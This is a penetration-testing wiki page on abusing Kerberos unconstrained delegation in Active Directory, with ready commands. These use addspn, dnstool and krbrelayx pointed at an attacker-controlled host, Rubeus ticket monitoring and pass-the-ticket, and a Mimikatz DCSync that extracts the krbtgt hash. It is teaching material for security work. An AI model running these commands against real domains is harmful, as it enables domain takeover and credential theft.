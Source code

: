 # (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

{% hint style="warning" %}
If the coerced account is "[is sensitive and cannot be delegated](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts)" or a member of the "[Protected Users](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)" group, its TGT will not be delegated in the service ticket used for authentication against the attacker-controlled KUD account.
{% endhint %}

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](../../mitm-and-coerced-authentications/ms-rprn.md), [MS-EFSR abuse (petitpotam)](../../mitm-and-coerced-authentications/ms-efsr.md), [MS-FSRVP abuse (shadowcoerce)](../../mitm-and-coerced-authentications/ms-fsrvp.md), r [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../domain-settings/builtin-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase FQDN + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase FQDN + hardcoded `host` text + lowercase FQDN hostname without the trailing `$` = `DOMAIN.LOCALhostcomputer.domain.local`\
  `(using` DOMAIN.LOCAL\computer$ `account)`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange), [PetitPotam](../../mitm-and-coerced-authentications/ms-efsr.md)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.

The TGT will then be usable with [Pass the Ticket](../ptt.md) (to act as the victim) or with [S4U2self abuse](s4u2self-abuse.md) (to obtain local admin privileges over the victim).
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

Once the TGT is injected, it can natively be used when accessing a service. For example, with [Mimikatz](https://github.com/gentilkiwi/mimikatz), to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}

